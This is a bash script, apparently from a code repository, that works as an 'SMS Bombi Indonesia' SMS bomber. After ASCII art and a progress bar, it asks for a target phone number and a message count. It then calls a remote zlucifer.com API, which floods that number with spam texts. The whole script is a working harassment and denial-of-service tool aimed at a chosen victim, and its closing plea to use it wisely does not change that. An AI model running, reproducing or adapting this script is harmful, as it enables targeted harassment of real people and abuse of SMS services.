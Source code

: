 #!/bin/bash
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                       _            _  __                              ////
#////                      | |          (_)/ _|                             ////
#////                   ___| |_   _  ___ _| |_ ___ _ __                     ////
#////                  |_  / | | | |/ __| |  _/ _ \ '__|                    ////
#////                   / /| | |_| | (__| | ||  __/ |                       ////
#////                  /___|_|\__,_|\___|_|_| \___|_|                       ////
#////                                                                       ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
bom(){
    sleep 0.03
    echo "      _.-^^---....,,-- "
    sleep 0.03
    echo "  _--                  --_ "
    sleep 0.03
    echo " <                        >) "
    sleep 0.03
    echo " |                         | "
    sleep 0.03
    echo "  \._                   _./ "
    sleep 0.03
    echo "     '''--. . , ; .--'''    " 
    sleep 0.03
    echo "           | |   |           "
    sleep 0.03
    echo "        .-=||  | |=-.    "
    sleep 0.03
    echo "        '-=#$%&%$#=-'    "
    sleep 0.03
    echo "           | ;  :|      "
    sleep 0.03
    echo "  _____.,-#%&$@%#&#~,._____ "
    sleep 0.03
    echo "============================="
    sleep 2
    echo "==   SMS Bombi Indonesia  =="
    sleep 0.7
    echo "============================="
}
load(){
    echo -e "\n"
    bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
    barlength=${#bar}
    i=0
    while((i<100)); do
        n=$((i*barlength / 100))
        printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"
        ((i += RANDOM%5+2))
        sleep 0.2
    done
}
clear
load
clear
bom
echo Selamat datang kak, Siapa nick kaka? #tulisan keluar
read nick #membaca yang ditulis
clear
load
clear
bom
echo Selamat datang $nick ":)"
get_url=$(curl -s http://zlucifer.com/api/sms.php)
cek='curl -s '$get_url # check status
response=`curl -s -o /dev/null -w "%{http_code}" $cek`
if [[ $response = *sleeping* ]]; then
    echo
    echo "Website Offline/Restart untuk sementara"
else
    echo
    echo "Silahkan masukan nomor telp target"
    echo contoh 082######
    read target # masukin no telp
    echo
    echo "Berapa sms yang mau dikirim?"
    read paket
    echo
    echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"
    echo y/n?
    read confirm
    echo
    if [ $confirm = "y" ]; then
        load
        clear
        echo Melakukan spam SMS ke nomor $target
        echo
            echo "Jangan close aplikasi sebelum spam selesai"            
            echo "========================================"
            target_do=$get_url'/sms.php?nomor='$target'&paket='$paket
            CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`
            echo " Gunakan tools dengan bijak"
            echo
            echo " Love u always "
            echo " -zLucifer"
            echo "======================================="
    else
        echo "Kesalahan"
    fi
fi
